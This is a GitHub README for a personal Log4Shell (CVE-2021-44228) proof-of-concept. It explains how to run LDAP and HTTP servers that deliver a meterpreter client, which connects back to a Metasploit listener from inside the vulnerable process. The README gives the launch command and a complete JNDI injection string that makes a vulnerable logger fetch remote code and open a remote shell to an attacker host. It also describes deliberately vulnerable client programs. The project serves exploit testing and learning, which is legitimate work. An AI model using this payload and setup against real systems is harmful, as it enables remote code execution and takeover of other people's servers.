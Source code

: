 # l4s_poc
Log4Shell (Cve-2021-44228) Proof Of Concept

This is a personal project that runs a simple POC that will host an LDAP
server and an HTTP server for the Log4Shell exploit.  

##Server
The run_servers.py will setup a stripped down meterpreter client that will call
back to the Metasploit instance passed into the ldap request.  **This will run
the meterpreter instance in a thread in the original process that was affected
by the Log4Shell exploit.**

The LDAP server is written in Java and the HTTP server is hosted in python and
will serve from a newly created wwwroot directory.  This does require java,
javac and mvn to build the exploits, and host the LDAP server.  I used Java 8.

Python3 is also required.

####to get started
run python3 run_server.py <your_ip_address> <the_http_port> [ldap_port]

Then pass the jndi string to a vulnerable client to log i.e:
if your host was 10.20.30.40 and your metasploit instance was 20.30.40.50 
listening on port 4444 it would look like this : 
'${jndi:ldap://10.20.30.40:1389/#MM_20_30_40_50_4444}'

##Clients
The clients directory has 2 clients that can be executed.  One is a simple command
line program that will write an error log for whatever the 1st param passed in is.

The other is a basic web server that will write an error log using the log_me
header information.  Note this should be run in an isolted controlled env.
